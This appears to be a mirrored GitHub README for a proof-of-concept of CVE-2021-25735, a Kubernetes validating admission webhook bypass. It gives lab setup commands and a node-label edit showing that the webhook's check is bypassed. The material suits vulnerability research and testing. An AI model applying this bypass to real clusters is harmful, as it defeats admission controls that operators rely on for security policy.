 # CVE-2021-25735

Exploit CVE-2021-25735: Kubernetes Validating Admission Webhook Bypass

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/darryk10](https://github.com/darryk10) |
| Url      | [https://github.com/darryk10/CVE-2021-25735](https://github.com/darryk10/CVE-2021-25735)                                               |
| Stars    | 18                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-25735
## Exploit CVE-2021-25735: Kubernetes Validating Admission Webhook Bypass

### Set the Vulnerable Environment

Let's start with running the script gencerts.sh to generate TLS certificates and keys. \
` bash gencerts.sh`

To deploy the admission controller you need to build the Docker container image locally, tag, and push the image to your Dockerhub using the below commands.\
`docker login` \
`docker build -t validationwebhook:1.0 .` \
`docker tag validationwebhook:1.0 darryk/dev:1.0` \
`docker push darryk/dev:1.0`

Now you can deploy the created image with the Node.js application into your K8s cluster. The webhook-deploy.yaml will deploy all the needed components in your cluster. \
`kubectl apply -f webhook-deploy.yaml`

Let's now register our webhook with Kubernetes API Server. To do that, we create a Base64 of the ca.crt file created before and replace the CA_BUNDLE inside webhook-registration.yaml. \
`cat ca.crt | base64`

Finally, we will register the webhook with the Kubernetes API Server. \
`kubectl apply -f webhook-registration.yaml`


### Exploit CVE-2021-25735

We do a change in the node label using edit nodes and we add a new label.\
`kubectl edit nodes ip-172-20-61-82.ec2.internal`

```
  labels:  
    test: test  
    changeAllowed: "false"
```

Since the ChangeAllowed is set to "false" we get the following error:
> error: nodes "ip-172-20-46-130.ec2.internal" could not be patched: admission webhook "validationwebhook.validationwebhook.svc" denied the request: Validation failed
> You can run `kubectl replace -f /tmp/kubectl-edit-irc64.yaml` to try this update again.

If we retry to modify the node performing the following change:\
```
  labels:  
    test: test  
    changeAllowed: "true"
```

In this case the edit action has been accepted bypassing the admission controller.


## Get the content

```
git clone https://github.com/darryk10/CVE-2021-25735
cd CVE-2021-25735
```

{% embed url="https://github.com/darryk10/CVE-2021-25735" %}

<figure><img src="https://avatars.githubusercontent.com/u/77834235?v=4" alt=""><figcaption><p>darryk10</p></figcaption></figure>

